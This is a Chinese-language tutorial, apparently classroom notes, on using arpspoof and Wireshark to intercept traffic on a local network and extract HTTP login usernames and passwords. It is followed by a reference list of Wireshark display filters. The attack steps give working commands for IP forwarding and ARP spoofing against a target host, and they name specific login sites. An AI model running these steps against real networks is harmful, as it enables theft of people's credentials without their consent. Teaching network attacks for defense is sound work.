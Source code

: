 # ARP-WireShark截获用户数据

## 1.WireShark工具介绍

wireshark的官方下载网站： http://www.wireshark.org/

wireshark是非常流行的网络封包分析软件，功能十分强大。可以截取各种网络封包，显示网络封包的详细信息。

wireshark是开源软件，可以放心使用。 可以运行在Windows，linux和Mac OS上。

## 2.ARP攻击截获密码的步骤

**1.开启数据包转发**

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

**2.开启ARP攻击**

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.11
```

**3.启动wireshark**

```
wireshark
```

**4.输入过滤条件**

```
(ip.src==192.168.110.11 or ip.dst==192.168.110.11) and tcp.port==80 and http
```

**5.靶机登录后台系统**

```
http://mng.517628.com/login.php
http://vmims.eguagua.cn/#/Login
```

**6.wireshark寻找用户的登录信息**

![获取用户名](https://img.gyxnb.top/img/获取用户名.png)

![分析用户名和密码](https://img.gyxnb.top/img/分析用户名和密码.png)

## 3.WireSahrk 过滤命令讲解

**1.过滤源ip，目的ip**

​	在wireshark的过滤规则框Filter中输入过滤条件。

​	如查找目的地址为192.168.110.11的包

```
ip.dst==192.168.110.11
```

​	查找源地址为1.1.1.1的包

```
ip.src==1.1.1.1
```

**2.端口过滤**

2.1把源端口和目的端口为80的都过滤出来

```
tcp.port==80
```

2.2只过滤目的端口为80的

```
tcp.dstport==80
```

2.3只过滤源端口为80的包

```
tcp.srcport==80
```

**3.协议过滤**

直接在Filter框中直接输入协议名即可滤

```
http
tcp
ssh
```

**4.http模式过滤**

4.1过滤get包

```
http.request.method=="GET"
```

4.2过滤post包

```
http.request.method=="POST"
```

**5.过滤多种条件**

用and连接，如过滤ip为192.168.110.11并且为http协议的

```
ip.src==192.168.110.11 and http
```

## 4.课堂小结

请看ARP-WireShark获取用户信息.xmind

